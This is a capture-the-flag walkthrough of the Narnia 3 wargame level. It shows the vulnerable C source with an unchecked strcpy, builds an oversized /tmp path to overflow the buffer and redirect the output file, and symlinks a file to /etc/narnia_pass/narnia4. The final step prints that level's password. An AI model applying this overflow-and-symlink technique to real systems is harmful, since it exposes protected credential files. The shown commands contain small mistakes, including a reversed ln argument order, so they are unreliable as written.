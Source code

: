 # **LET'S START OUR NARNIA 3**
-------------------------------

As always let's start by reading our code!
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
}
```

As the previous one i'm pretty sure that i'll have to do a buffer overflow, our data is directly send to /dev/null so don't focus on that part of the code because it would be really tricky to change this path
But, the size check is where we have a break

After I analyze the code,we see that strcpy take the first arg and copy to ifile with a limit of 32bytes
(so our file has to be > 32bytes if we want to overflow it!)
I don't want to bother myself with a file, so the folder length would normally be enough to fulfill 32bytes
(32bytes is really small so the text of our dir name would be enough)
i'll go under /tmp (I'm not on my machine and I know that i've write access in tmp) and create a 27 char length folder
```bash
narnia3@narnia:/narnia$ mkdir `python -c 'print "/tmp/"+"R"*27'`
narnia3@narnia:/narnia$ cd `python -c 'print "/tmp/"+"R"*27'`
narnia3@narnia:/tmp/RRRRRRRRRRRRRRRRRRRRRRRRRRR /narnia/narnia3 $(pwd)
	error opening 
```

PERFECT it does work and effectively our folder made ./narnia3 crash

### What are you trying to do so??
What i want to do is override the default ofile value by one of my choice so i can acceed it
I just have to push my data to the max and so it will execute it AND print it where i want

Basically what i've done is adding a tmp at the end of my RRR.. folder and a file called out 
this out file is a link to my narnia4 pass!!
so let's just use this command:
```bash
ln -s out /etc/narnia_pass/narnia4
```

so, to explain
this whole path is taken as the file i need to copy
/tmp/RRRRRRRRRRRRRRRRRRRRRRRRRRR/tmp/out

And because my /tmp/RR.. is too long, it basically take all the memory
And this /tmp/out do overide the default /dev/null 

So now, this wonderful override made that the file out who's a link, is directly send into /tmp/out
So if i've already create a file called "out" with writting permission (touch /tmp/out; chmod 777 /tmp/out;)
So i'll have my result printed in this file in /tmp/out
Let's test this!

```bash
narnia3@narnia:/tmp/RRRRRRRRRRRRRRRRRRRRRRRRRRR/tmp$ /narnia/narnia3 /tmp/RRRRRRRRRRRRRRRRRRRRRRRRRRR/tmp/out
copied contents of /tmp/RRRRRRRRRRRRRRRRRRRRRRRRRRR/tmp/out to a safer place... (/tmp/out)
```
ALRIGHT IT DOES WORKED!!
let's check it out in our file:
thaenohtai

well done!!! Let's jump into the next one